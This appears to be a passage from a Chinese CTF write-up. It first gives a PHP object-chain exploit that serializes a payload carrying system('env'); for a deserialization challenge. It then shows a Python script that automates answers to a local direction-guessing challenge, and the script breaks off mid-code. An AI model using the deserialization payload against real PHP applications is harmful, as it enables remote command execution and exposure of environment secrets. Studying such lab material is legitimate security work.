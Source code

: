 exp

```php
$payload = new class000();
$payload -> pay10ad = 1;
$payload -> what = new class001();
$payload -> what -> payl0ad = "dangerous";
$payload -> what -> a = new class002();
$payload -> what -> a -> sec = new class003();
$payload -> what -> a -> sec -> mystr = "system('env');";
echo serialize($payload);
# O:8:"class000":3:{s:17:"%00class000%00payl0ad";i:1;s:7:"%00*%00what";O:8:"class001":2:{s:7:"payl0ad";s:9:"dangerous";s:1:"a";O:8:"class002":1:{s:13:"%00class002%00sec";O:8:"class003":1:{s:5:"mystr";s:14:"system('env');";}}}s:7:"pay10ad";i:1;}
```

## 勇闯铜人阵

看题目的图片，数字对应的方向，写一个python脚本，用正则匹配给出的数字，构造payload，提交

```python
import re
import time
import requests

url = "http://127.0.0.1:51723/"

data = {
    "player":"1",
    "direct":"弟子明白"
}
s = requests.session()
resp = s.post(url,data=data)
direct_dict = {
    "1":"北方",
    "2":"东北方",
    "3":"东方",
    "4":"东南方",
    "5":"南方",
    "6":"西南方",
    "7":"西方",
    "8":"西北方"
}

for n in range(5):
    # 使用正则表达式匹配<h1>标签中的数字
    pattern = r'<h1 id="status">\s*(\d)(?:,\s*(\d+))?\s*</h1>'
    matches = re.findall(pattern, resp.text)
    num = []
    for match in matches:
        num.append(int(match[0]))
        if match[1]:
            num.append(int(match[1]))
    print(num)

    payload = ''
    if len(num) == 1:
       payload = direct_dict[f"{num[0]}"]
       print(payload)
    elif len(num) == 2:
        payload = direct_dict[f"{num[0]}"] + "一个，" + direct_dict[f"{num[1]}"] + "一个"
        print(payload)
    data = {
    "player":'1',
    "direct":payload,
```